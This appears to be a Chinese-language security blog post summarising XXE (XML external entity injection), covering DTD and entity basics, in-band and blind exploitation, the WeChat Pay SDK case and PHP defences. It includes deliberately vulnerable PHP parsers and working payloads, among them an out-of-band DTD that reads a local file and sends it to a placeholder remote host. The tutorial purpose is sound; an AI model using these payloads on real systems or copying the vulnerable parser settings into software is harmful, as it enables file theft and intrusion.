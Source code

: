 ```yaml
---
layout:     post
title:      XXE
date:       2020-05-12
author:     lceCr4m
header-img: img/xxe.jpg
catalog: true
tags:
    - XXE
---
```

> 本文是关于学习xml外部实体注入（xxe）的相关总结  
PS：php版本大于5.4.45的默认不解析外部实体  

## 0x00 XXE介绍
首先是xml注入：  
![xxe](https://github.com/lceCre4m/lceCre4m.github.io/blob/master/img/xml.png?raw=true)  
然后是xxe注入：XXE(XML External Entity Injection) 全称为 XML 外部实体注入。其中实体分类有：内部实体，外部实体，参数实体和通用实体。接下来会介绍到。xxe主要通过注入实体来实现获取服务器（有xxe漏洞，能够接收xml内容）的敏感信息。
## 0x01 基础知识
### xml
XML用于标记电子文件使其具有结构性的标记语言，可以用来标记数据、定义数据类型，是一种允许用户对自己的标记语言进行定义的源语言。结构包括：XML声明、DTD文档类型定义、文档元素。  
### DTD
XML文档有自己的一个格式规范，这个格式规范是由 DTD（document type definition）控制的。  
示例：
```
<?xml version="1.0"?>   //这一行是 XML 文档定义
<!DOCTYPE message [     //定义了元素
<!ELEMENT message (receiver ,sender)>
<!ELEMENT receiver (#PCDATA)>   //子元素
<!ELEMENT sender (#PCDATA)>     //子元素
```
### 实体（内，外，通，参）
除了在DTD中定义元素，还可以定义实体，实体分类有四种，前面讲过了。  

内外实体示例：

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo1 [
<!ELEMENT foo1 ANY >
<!ENTITY xxe "test" >]>     //内部实体
<!DOCTYPE foo2 [
<!ELEMENT foo2 ANY >
<!ENTITY xxe SYSTEM "file:///c:/test.dtd" >]>       //外部实体
```
通用实体：用 &实体名; 引用的实体，他在DTD 中定义，在 XML 文档中引用。  

参数实体：用 % 实体名(这里面空格不能少) 在DTD 中定义，并且只能在DTD中使用 %实体名; 引用。可以外部引用。只有在DTD文件中，参数实体的声明才能引用其他实体。
通参实体示例：

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE updateProfile [<!ENTITY file SYSTEM "file:///c:/windows/win.ini"> ]> 
<updateProfile>  
    <firstname>Joe</firstname>  
    <lastname>&file;</lastname>     //通用实体
    ... 
</updateProfile>

<!ENTITY % an-element "<!ELEMENT mytag (subtag)>"> 
<!ENTITY % remote-dtd SYSTEM "http://somewhere.example.org/remote.dtd"> 
%an-element; %remote-dtd;           //参数实体
``` 
## 0x02 xxe利用
### 有回显利用
示例：  
xml.php
```
<?php

    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
    $creds = simplexml_import_dom($dom);
    echo $creds;
?>
```
payload
```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA[">   
<!ENTITY % goodies SYSTEM "file:///d:/test.txt">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://ip/evil.dtd"> 
%dtd; ]> 

<roottag>&all;</roottag>
```
evil.dtd

```
<?xml version="1.0" encoding="UTF-8"?> 
<!ENTITY all "%start;%goodies;%end;">
```
简单说明 ~~（大白话）~~ ：% goodies读取test.txt内容（其中CDATA使得特殊符号的可以正常输出），% dtd引用了evil.dtd，在evil.dtd中，使用了% start，% goodies，% end输出了test.txt的内容。
### 无回显利用（类似于ssrf）
示例：  
xml.php
```
<?php
libxml_disable_entity_loader (false);
$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
?>
```
test.dtd
```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///D:/test.txt">
<!ENTITY % int "<!ENTITY % send SYSTEM 'http://ip:9999?p=%file;'>">
```
payload：
```
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://ip/test.dtd">
%remote;%int;%send;
]>
```
简单说明 ~~（其实很好理解，我直接fork一下）~~ ：我们从 payload 中能看到 连续调用了三个参数实体 %remote;%int;%send;，这就是我们的利用顺序，%remote 先调用，调用后请求远程服务器上的 test.dtd ，有点类似于将 test.dtd 包含进来，然后 %int 调用 test.dtd 中的 %file, %file 就会去获取服务器上面的敏感文件，然后将 %file 的结果填入到 %send 以后(因为实体的值中不能有 %, 所以将其转成html实体编码 &#37;)，我们再调用 %send; 把我们的读取到的数据发送到我们的远程 vps 上，这样就实现了外带数据的效果，完美的解决了 XXE 无回显的问题。
### 其他利用
http内网主机探测，http内网端口扫描，内网钓鱼，利用 XXE 进行DOS攻击等。

除了file协议以外其他可用协议（libxml 是 PHP 的 xml 支持）：  
![xxe1](https://github.com/lceCre4m/lceCre4m.github.io/blob/master/img/xxe1.png?raw=true)
### 实例利用
#### 微信支付xxe
微信支付提供了一个 api 接口，供商家接收异步支付结果，微信支付所用的java sdk在处理结果时可能触发一个XXE漏洞，攻击者可以向这个接口发送构造恶意payloads,获取商家服务器上的任何信息。  
此次的sdk 提供了一个WXPayUtil工具类，该类中实现了xmltoMap和maptoXml这两个方法，而这次的微信支付的xxe漏洞爆发点就在xmltoMap方法中。
#### JSON content-type XXE
很多web和移动应用都基于客户端-服务器交互模式的web通信服务，最常见的数据格式都是XML和JSON。尽管web服务可能在编程时只使用其中一种格式，但服务器却可以接受开发人员并没有预料到的其他数据格式，这就有可能会导致JSON节点受到XXE（XML外部实体）攻击。  
简单说就是：原本以为只处理json格式数据，没想到收到了xml数据，并且可以处理xml数据，导致了xxe。
## 0x03 xxe防御
### 使用语言中推荐的禁用外部实体的方法
PHP：
```
libxml_disable_entity_loader(true);
```
### 黑名单过滤敏感字符

```
<!ENTITY SYSTEM、PUBLIC 等等
```









